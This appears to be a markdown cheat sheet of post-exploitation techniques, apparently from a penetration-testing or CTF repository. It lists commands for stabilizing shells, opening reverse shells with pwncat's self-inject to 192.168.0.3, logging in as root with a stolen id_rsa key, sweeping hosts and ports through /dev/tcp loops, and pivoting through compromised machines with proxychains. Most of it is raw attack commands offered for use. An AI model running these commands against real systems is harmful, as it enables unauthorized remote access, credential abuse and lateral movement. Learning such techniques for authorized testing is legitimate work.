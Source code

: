 #### Shell Stabilization
`We can use terminal commands like clear that is important after getting reverse shell.`

```export TERM=xterm```

##### Check available languages installed in System like python, perl, etc to get a better shell.

#### Backgrounding and Foregrounding Shell
```
Background CTRL+Z
Foreground : stty raw -echo; fg 
```

#### Pwncat

```
usage : pwncat -l 2000

Self-Inject Shell
pwncat -l 1234 --self-inject /bin/sh:192.168.0.3:1234
```
![Screenshot at 2022-12-19 11-47-20](https://user-images.githubusercontent.com/85208639/208359602-1d7531c9-5f7e-469a-802d-c3ee4c011e6a.png)

#### Connect Multiple Reverse Shells with Clients

```
pwncat -l 1234 --self-inject /bin/sh:192.168.0.3:1234+3
The above command creates 4 reverse shells on the machines at port 1235,1236,1237,1234

```

Sometimes we may gain remote machine ssh secret utilizing it we may be able to get access to it.

```
1) Download the id_rsa to local machine.
2) chmod 600 id_rsa
3) ssh -i id_rsa root@192.169.0.3
```
#### Enumeration:
> There are various ways to enumerate other machines in a network


>Using tools avalable on system like using arp -a command.


>Checking /etc/hosts filein linux or C:\Windows\System32\drivers\etc\hosts file in Windows.


>Using local tools through proxy.

##### Enumerate live machines in a host 
```
for i in {1..255}; do (ping -c 1 192.168.1.${i} | grep "bytes from" &); done
```

```
for i in {1..65535}; do (echo > /dev/tcp/192.168.1.1/$i) >/dev/null 2>&1 && echo $i is open; done
```

![Screenshot at 2022-12-19 13-01-33](https://user-images.githubusercontent.com/85208639/208370241-ce5cabbc-3141-4239-9065-2ed4b6ea1c3f.png)




#### Pivoting Techniques
| Tunneling | Port Forwarding |
| --- | ---|
|Creating a proxy type connection through a compromised machine in order to route all desired traffic into the targeted network|Creating a connection between local port and single port on target|
|Reliable if we want to perform nmap scan on other machine or send large amount of traffic.|Reliable but only single port can be accessed at a time.|

##### ProxyChains
>Default ProxyChain Directory
```
/etc/proxychains.conf
```

> While using proxychain with nmap only TCP scan works 

```

While using proxychains with nmap comment the following lines 

# Proxy DNS requests - no leak for DNS data
#proxy_dns 

```
```
Proxychain Usage: proxychains telnet 10.10.14.3 23
```

#### Foxy Proxy
Useful while proxying to a webapp running inside an isolated network.


##### Enable Disable ssh on your system
```
sudo systemctl status
sudo systemctl enable ssh
```

